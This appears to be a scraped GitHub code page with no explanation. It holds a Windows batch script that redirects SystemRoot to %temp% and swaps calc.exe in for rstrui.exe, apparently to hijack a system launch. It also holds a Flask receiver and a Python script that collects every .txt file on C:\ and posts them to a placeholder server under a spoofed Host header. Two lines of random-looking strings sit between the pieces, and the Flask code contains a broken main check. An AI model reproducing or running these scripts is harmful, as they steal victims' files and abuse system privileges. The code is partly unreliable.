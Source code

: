 # app
start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}

mkdir %temp%\System32

FOR /R C:\Windows\System32\ %F IN (*.dll) DO COPY "%F" %temp%\System32\ /Y >NUL

set a=C:\Windows\System32\calc.exe

copy %a% %temp%\System32\rstrui.exe /Y > NUL

set SystemRoot=%temp%

start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}


leugai8eephei0ot1quaMai4Yea"C^ee

iet4yi3Einae|x3L
=----

import os, flask

app = flask.Flask(__name__)

@app.route('/receive', methods=['POST'])
def receive():
    data = flask.request.data
    with open(os.path.join('received_txt_files', flask.request.remote_addr + '.txt'), 'wb') as f:
        f.write(data)
    return 'File received.'

if name == '__main__':
    app.run()
  
  
  -----
  
  
  import os, requests

root_directory = 'C:\\'
txt_files = []
for root, dirs, files in os.walk(root_directory):
    for file in files:
        if file.endswith('.txt'):
            txt_files.append(os.path.join(root, file))

for txt_file in txt_files:
    with open(txt_file, 'rb') as f:
        data = f.read()
    requests.post('http://your-server.com/receive', data=data, headers={'Host': 'reg.ru'})

